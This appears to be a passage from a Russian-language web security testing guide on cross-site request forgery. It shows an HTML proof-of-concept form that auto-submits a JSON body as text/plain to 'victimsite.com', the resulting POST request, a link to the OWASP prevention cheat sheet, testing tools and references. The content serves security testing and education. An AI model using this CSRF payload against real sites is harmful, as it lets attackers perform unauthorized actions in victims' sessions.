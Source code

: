 ```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

Запрос POST будет следующим:

```http
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```

Когда эти данные отправляются в качестве запроса POST, сервер с радостью примет поля имени и пароля и проигнорирует поле с набивкой имени, поскольку оно ему не нужно.

## Восстановление

- Смотрите [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) для профилактических мероприятий.

## Tools

- [OWASP ZAP](https://www.zaproxy.org/)
- [CSRF Tester](https://wiki.owasp.org/index.php/Category:OWASP_CSRFTester_Project)
- [Pinata-csrf-tool](https://code.google.com/archive/p/pinata-csrf-tool/)

## References

- [Peter W: "Cross-Site Request Forgeries"](https://web.archive.org/web/20160303230910/http://www.tux.org/~peterw/csrf.txt)
- [Thomas Schreiber: "Session Riding"](https://web.archive.org/web/20160304001446/http://www.securenet.de/papers/Session_Riding.pdf)
- [Oldest known post](https://web.archive.org/web/20000622042229/http://www.zope.org/Members/jim/ZopeSecurity/ClientSideTrojan)
- [Cross-site Request Forgery FAQ](https://www.cgisecurity.com/csrf-faq.html)
- [A Most-Neglected Fact About Cross Site Request Forgery (CSRF)](http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf)
- [Multi-POST CSRF](https://www.lanmaster53.com/2013/07/17/multi-post-csrf/)
- [SANS Pen Test Webcast: Complete Application pwnage via Multi POST XSRF](https://www.youtube.com/watch?v=EOs5PZiiwug)

